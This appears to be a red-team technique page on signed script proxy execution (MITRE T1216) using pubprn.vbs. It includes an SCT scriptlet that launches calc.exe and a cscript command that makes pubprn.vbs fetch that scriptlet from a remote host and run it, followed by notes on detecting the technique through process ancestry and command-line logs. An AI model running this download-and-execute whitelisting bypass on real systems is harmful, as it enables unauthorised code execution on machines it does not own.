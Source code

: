 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../../.gitbook/assets/pubprn-csript.png)

![](../../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}

